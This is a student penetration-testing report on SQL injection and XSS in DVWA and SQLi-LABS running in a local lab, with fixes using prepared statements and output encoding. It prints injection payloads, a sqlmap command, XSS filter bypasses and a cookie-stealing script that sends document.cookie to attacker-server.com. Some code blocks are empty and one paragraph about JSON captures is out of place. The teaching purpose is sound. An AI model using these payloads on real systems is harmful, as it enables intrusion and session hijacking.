# Ethical Hacking - Final Project Report

**CS 4069 - Ethical Hacking Final Project - Spring 2026**

**Instructor:** Dr. Sohail Khan

**Team Members:**
- Abeer Hussain (S22107714)
- Sarah Eid (S22107757)
- Nancy Elhaddad (S20206871)

**Effat University, College of Engineering, Computer Science**
**Saudi Arabia, Jeddah**

---

## Table of Contents

1. Executive Summary
2. Introduction
3. Lab Setup
4. Task 1: SQL Injection (SQLi) in Depth
    - 2.1 Authentication Bypass
    - 2.2 Error-Based SQL Injection
    - 2.3 Union-Based SQL Injection
    - 2.4 Automated SQL Injection with sqlmap
    - Root Cause & Fix
5. Task 2: Cross-Site Scripting (XSS) in Depth
    - 3.1 Reflected XSS
    - 3.2 Stored XSS
    - 3.3 Filter Bypass Techniques
    - 3.4 Cookie Theft Simulation
    - 3.5 Remediation for XSS
6. Additional Protections
7. Conclusion
    - Most Challenging Aspect
    - What We Would Do Differently With More Time
    - Key Takeaways

---

## Executive Summary

Our team was hired to test the security of a company's internal web application that had never been reviewed for vulnerabilities. We built a safe, isolated laboratory that mimicked the company's setup and conducted controlled attacks to find weaknesses.

We discovered two critical security issues. First, the application's login system is vulnerable to SQL Injection. This means an attacker could bypass the login page entirely and steal every username and password stored in the database. Second, the application is vulnerable to Cross-Site Scripting (XSS). This allows an attacker to inject malicious code into web pages viewed by other users, potentially stealing session cookies and impersonating legitimate employees.

Both vulnerabilities exist because the application trusts whatever users type without checking it first. The good news is that both have simple, well-documented fixes that do not require rewriting the entire application. We recommend implementing parameterized queries for SQL injection and output encoding for XSS immediately.

Without these fixes, the company faces high risk of data breach, account takeover, and reputational damage. With them, the application becomes substantially more secure against common web attacks.

## Introduction

This report documents the completion of the final project for CS4069: Ethical Hacking. In this project, our team assumed the role of a junior penetration testing team hired to assess the security of a small company's internal web application that had never undergone security testing. The objective was to build a controlled laboratory environment, identify and exploit vulnerabilities, and deliver a clear report with actionable remediation recommendations.

To accomplish this, we constructed a complete penetration testing lab from the ground up. The environment consisted of a Kali Linux virtual machine running on Oracle VirtualBox, with Docker deployed as the containerization platform. Using the WebSploit Labs framework, we deployed multiple intentionally vulnerable web applications, including DVWA (Damn Vulnerable Web Application) and SQLi-LABS.

The assessment focused on two critical web vulnerability categories: SQL Injection (SQLi) and Cross-Site Scripting (XSS). For SQL injection, we executed manual techniques including authentication bypass, error-based extraction, and UNION-based data exfiltration to retrieve database names, table structures, and user credentials. We then automated these attacks using sqlmap to demonstrate the efficiency of tool-assisted testing. For XSS, we conducted reflected and stored injection attacks, implemented filter bypass techniques, and simulated session cookie theft to illustrate real-world impact.

The findings from this assessment confirm that both vulnerability types stem from a common root cause: failure to properly validate or encode user-supplied input. Both issues have well-established fixes — parameterized queries for SQL injection and output encoding for XSS — which we present as clear, developer-actionable recommendations.

## Lab Setup



Verify running containers:



Accessing vulnerable web application:

### 1.1 Environment Overview

| Component | Specification |
| :--- | :--- |
| Host OS | Windows 11 |
| Virtualization | Oracle VM VirtualBox |
| Guest VM | Kali Linux (64-bit) |
| Target Lab | WebSploit Labs (Docker containers) |

## Task 1: SQL Injection (SQLi) in Depth

**Target application:** http://127.0.0.1:8081 (SQLi-LABS)

### 2.1 Authentication Bypass

The application constructs a SQL query by directly concatenating user input. When we enter `' OR '1'='1'--`, the query becomes:



```sql
SELECT * FROM users WHERE username = '' OR '1'='1'-- ' AND password = 'anything'
```

**URL Used:** `http://127.0.0.1:8081/Less-1/?id=1' OR '1'='1`

### 2.2 Error-Based SQL Injection

Injecting a single quote `'` caused a database syntax error, revealing that the backend uses MySQL.



### 2.3 Union-Based SQL Injection

**Determine Number of Columns:**

Payload used:
```sql
1' order by 2#
```



**Result:** The query executed successfully, showing admin user data. The original query returns 2 columns.

**Find Displayed Columns:**

Payload used:
```sql
1' union select 1,2#
```



**Result:** The page displayed 1 in the First name field and 2 in the Surname field. We now know that the First name field shows column 1, and Surname shows column 2. We can replace 1 and 2 with SQL functions or data we want to extract.

**Extract Database Name:**

Payload used:
```sql
1' union select database(),2#
```



**Result:** The database name `dvwa` appeared in the First name field.

**Extract Table Names:**

Payload used:
```sql
1' union select table_name,2 FROM information_schema.tables WHERE table_schema='dvwa'#
```



**Result:** The query returned two tables:
- `guestbook`
- `users`

Finding a `users` table suggests that usernames and passwords are stored here. We can now extract them.

**Extract Usernames and Passwords:**

Payload used:
```sql
1' union select user,password FROM users#
```



**Result:** All usernames and password hashes from the `users` table.

### 2.4 Automated SQL Injection with sqlmap

After manually exploiting the SQL injection vulnerability, we used sqlmap to automate the process and discover additional injection techniques.

**Command Used (Database Discovery):**
```bash
sqlmap -u "http://127.0.0.1/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=h9gjtg4ds75t9cte4ecfdf726; security=low" --dbs --batch --level=2
```

**Results:** sqlmap identified that the `id` parameter is vulnerable to multiple SQL injection techniques:

| Technique | Description |
| :--- | :--- |
| Boolean-based blind | Extracts data by asking true/false questions |
| Error-based | Database errors reveal structure information |
| Time-based blind | Uses response delays to infer data |
| UNION query | Combines results with attacker-controlled queries |

**Tables in dvwa Database:**
- `guestbook`
- `users`

### Root Cause

The problem is that the application takes whatever the user types and pastes it directly into a database query. If a normal user types "John", the query runs fine. But if an attacker types something clever - like a quote followed by `OR '1'='1` - the database gets confused and does what the attacker wants instead of what the developer intended. It's like telling a security guard "I'm on the list" and he just believes you without checking.

### One Concrete Fix

Instead of mixing user input directly into the query, use a placeholder so the database knows the difference between code and data.

**Vulnerable code:**
```php
$query = "SELECT * FROM users WHERE id = " . $_GET['id'];
```

**Fixed code:**
```php
$stmt = $conn->prepare("SELECT * FROM users WHERE id = ?");
$stmt->bind_param("i", $_GET['id']);
$stmt->execute();
```

The `?` is a safe placeholder. The database knows whatever goes there is just data - not part of the SQL command. This one change blocks almost all SQL injection attacks.

## Task 2: Cross-Site Scripting (XSS) in Depth

**Target application:** http://127.0.0.1/ (DVWA)

### 3.1 Reflected XSS

**Payload 1:**
```html
<script>alert('XSS')</script>
```



**Result:** A JavaScript alert popup appeared with the message "XSS".



**Result:** The image failed to load, triggering the `onerror` event and showing the alert.

**Conclusion:** The application takes the "name" parameter from the URL and echoes it directly into the HTML page without encoding. The browser sees `<script>` tags and executes them as code instead of displaying them as text.



### 3.2 Stored XSS

**Payload used:**
```html
<script>alert('Stored XSS')</script>
```



**Result:** After submitting, the alert executed immediately. When refreshing the page, the alert is executed again, proving the payload is stored in the database.



**Real-world impact examples:**
- An attacker could steal session cookies using `document.cookie` and send them to an external server.
- An attacker could inject a fake login form that looks legitimate but submits credentials to a malicious site.
- An attacker could deface the website by injecting HTML that changes the page content permanently.

### 3.3 Filter Bypass Techniques

**Payloads used:**
```html
<ScRiPt>alert('XSS')</ScRiPt>

javascript:alert('XSS')
```

**Conclusion:** The developer only blocked simple `<script>` tags but didn't consider other HTML tags (like ``, `<svg>`, `<body>`) that can also execute JavaScript via event handlers like `onerror` and `onload`.





```html

```



```javascript
javascript:alert('XSS')
```

These contain JSON payloads used for login attempts, creating accounts, sending feedback, adding basket items, and interacting with the chat engine. This confirms that form submissions and login actions were captured successfully.

### 3.4 Cookie Theft Simulation

**Payload used:**
```html
<script>alert('Your cookie is: ' + document.cookie)</script>
```



**Result:** The alert displayed `PHPSESSID=hf9gjtg4ds75t9cte4eccfd726; security=low`.

In a real attack, the payload would be:
```html
<script>fetch('https://attacker-server.com/steal?cookie=' + document.cookie);</script>
```



This sends the victim's cookie to the attacker's server. The attacker can then use that cookie to impersonate the victim.

**Impact:**
- The attacker receives the victim's session cookie
- The attacker can inject that cookie into their own browser
- The attacker is now logged in as the victim without ever knowing their password
- This bypasses all authentication controls

### 3.5 Remediation for XSS

#### 1. Root Cause

The application takes user input (like a name or comment) and prints it directly onto the web page without converting special characters. When an attacker types `<script>`, the browser thinks it's supposed to run that code instead of showing it as text. It's like someone shouting "FIRE" in a theater - the system (browser) acts on it instead of just displaying the word.

That's dangerous, because if an attacker intercepts that cookie, they could reuse the token to impersonate the user (session hijacking) without having to know the password. Because HTTP isn't encrypted, an attacker can sniff traffic on the same network and steal the token.

#### 2. One Concrete Fix

Convert dangerous characters into harmless HTML entities so they display as text instead of executing as code.

**Vulnerable code:**
```php
echo "<div>" . $_GET['comment'] . "</div>";
```

**Fixed code:**
```php
echo "<div>" . htmlspecialchars($_GET['comment'], ENT_QUOTES, 'UTF-8') . "</div>";
```

**What `htmlspecialchars()` does:**

| Character | Becomes |
| :--- | :--- |
| `<` | `&lt;` |
| `>` | `&gt;` |
| `"` | `&quot;` |
| `'` | `&#039;` |

Now if a user types `<script>alert('XSS')</script>`, the browser displays it as text: `&lt;script&gt;alert('XSS')&lt;/script&gt;` - harmless.

## Additional Protections

| Protection | How It Helps |
| :--- | :--- |
| HttpOnly cookies | Prevents JavaScript from reading `document.cookie` |
| Content Security Policy (CSP) | Tells browser to only load scripts from trusted sources |
| Input validation | Reject suspicious patterns like `<script` or `javascript:` |

## Conclusion

### Most Challenging Aspect

Our team found that the lab setup phase was the most challenging part of this project. The official WebSploit installer script at `https://websploit.org/install.sh` returned a 404 error, and the GitHub repository required authentication. Resolving these issues required manual troubleshooting - we deployed individual Docker containers (DVWA and SQLi-LABS) instead of using the broken installer, and verified everything was running with `docker ps`. While frustrating at the time, this taught us that real-world penetration testing rarely goes smoothly, and problem-solving is an essential skill.

The second most challenging aspect was bypassing XSS filters. On DVWA's medium security level, simple `<script>` tags were blocked. We had to research and test alternative payloads like `<ScRiPt>` (case variation) and `` (event handlers) to successfully execute JavaScript. This reinforced that developers must use proper output encoding rather than blacklisting specific patterns.

### What We Would Do Differently With More Time

Given additional time, our team would focus on these areas:

First, explore blind SQL injection techniques. Our manual testing focused on error-based and UNION-based injection, which work when data is displayed directly on the page. Blind SQL injection (boolean-based and time-based) is more subtle and works even when no data is returned to the screen.

Second, chain vulnerabilities together. A real attacker rarely uses a single vulnerability. We would like to combine SQL injection with XSS - for example, using SQLi to extract admin credentials, then using XSS to hijack an admin session. This would better simulate a real-world attack chain.

Finally, practice writing remediation patches. While we explained fixes in this report, we would like to actually modify vulnerable code and verify that the patches work. This would give us deeper confidence in our remediation recommendations.

### Key Takeaways

This project confirmed that ethical hacking is not about clicking buttons in automated tools. It requires understanding how web applications work, thinking like an attacker, and - most importantly - explaining technical risks clearly to non-technical audiences. We made mistakes, hit dead ends, and debugged our environment more than once. That is exactly what real penetration testers do every day.

